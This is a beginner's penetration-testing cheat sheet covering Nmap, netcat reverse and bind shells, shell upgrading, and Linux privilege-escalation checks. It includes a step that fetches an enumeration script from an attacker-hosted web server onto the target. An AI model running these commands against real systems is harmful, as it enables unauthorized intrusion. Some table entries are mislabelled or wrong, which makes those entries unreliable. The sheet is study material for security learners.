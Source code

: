 # About this Cheat Sheet. (For beginners)
I made this Cheat Sheet with no other purpose than to help myself in my own learning way. Since I'm not able to remember all these commands or practices, I've resorted to making this file so I can make faster searches according to my needs. This is a beginner Cheat Sheet and the level corresponds approximately to the eLearnSecurity Junior Penetration Tester Certificate.

This readme was corrected to perfect English by [@chetstink](https://twitter.com/chetstink "Twitter")

You can find me on twitter here. [@0x1_dev](https://twitter.com/0x1_dev "Twitter")


## Networking.
#### Nmap - For vulnerability scanning and network discovery.
| Usage                 |
| --------------------- |
| `nmap <options> <IP>` |


| Parameter name                             | Description                                                                       |
| -------------------------------------------| --------------------------------------------------------------------------------- |
| `-p <port-number>`                         | Scans a port or some of them.  (it scans the first 1.000 ports by default.)       |
| `-p- <startPort-number endPort-number>`    | Scans a range of ports. (By default it scans all ports.)                          |
| `-sV`                                      | Gives information about service's versions.                                       |
| `-Pn`                                      | Skip the ping test, instead scan every target host provided.                      |

There are a lot more parameters, they can be found [here](https://nmap.org/book/man-briefoptions.html "Nmap parameters.").



## Reverse and Blind Shells
| Name               | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| Reverse Shell      |  Target connects to us. (We set up a listener before they connect to us.) |
| Vertical PrivEsc   |  We connect to the target. (The target is the one who set up a listener.) |


#### How to use Netcat to set up a listener. (Reverse shell)
```bash
nc -lvnp <port-number>
```

| Parameters         | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| `-l`               |  Tells netcat that this will be a listener.                               |
| `-v`               |  Verbose output.                                                          |
| `-n`               |  Don't resolve hostnames or use DNS                                       |
| `-p`               |  The port that we will use                                                |


#### How to use Netcat to connect to a listener. (Blind shell)
```bash
nc <target-ip> <chosen-port>
```


## Upgrade shell.
After we have a shell, we should upgrade it, because netcat isn't too stable. Also we can't use arrow keys, tab key or Ctrl + C.

#### Using Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[Ctrl+Z]
stty raw -echo; fg
````
#### Using Rlwrap
After we install it with `sudo apt install rlwrap` we need to use nc like this.

```bash
rlwrap nc -lvnp <port>
```


## Privilege Escalation

Understanding the two main privilege escalation variants.

| Name         | Description                                                                       |
| -------------------------- | --------------------------------------------------------------------------------- |
| Horizontal PrivEsc         |  Used to hijack another user with the same privileges. Some users can have SUID files even if they're not an admin, or if they are allowed to use sudo for different files or programs.   |
| Vertical PrivEsc | You just takes over an administrator accountto have privileges. |

TODO: Make a picture with a diagram.

#### LinEnum
We can use [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "LinEnum") to enumerate privilege escalation. Below we can find a table for things we should check for privilege escalation regardless of LinEnum doing the task for us.


| Things to check for   |
| -------------         |
| SUID / GUID Files     |
| Readable /etc/shadow  |
| Writable /etc/shadow  |
| Writable /etc/passwd  |
| Sudo Escape sequences |
| Cron Jobs - File permissions  |
| Cron Jobs - PATH env          |
| Passwords & Keys History File |
| Looking for SSH or Config files |
| NFS |
| Kernel exploits |
| Escaping VI editor |

There are several ways of executing the script in the target machine. However, creating a Python web server would be the second easiest one in case we can't recreate the script by copying and pasting it.

1. Create a Python web server.
2. Download the script in the target machine.
3. Make the script executable.

```bash
1. python -m SimpleHTTPServer [PORT]
2. wget http://IP:PORT/FILE
3. chmod +x [FILE]
```

#### How to find SUID binaries.

```bash 
find / -perm -u=s -type f 2>/dev/null
           ---- or ----
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[This cheat sheet is still under construction...]
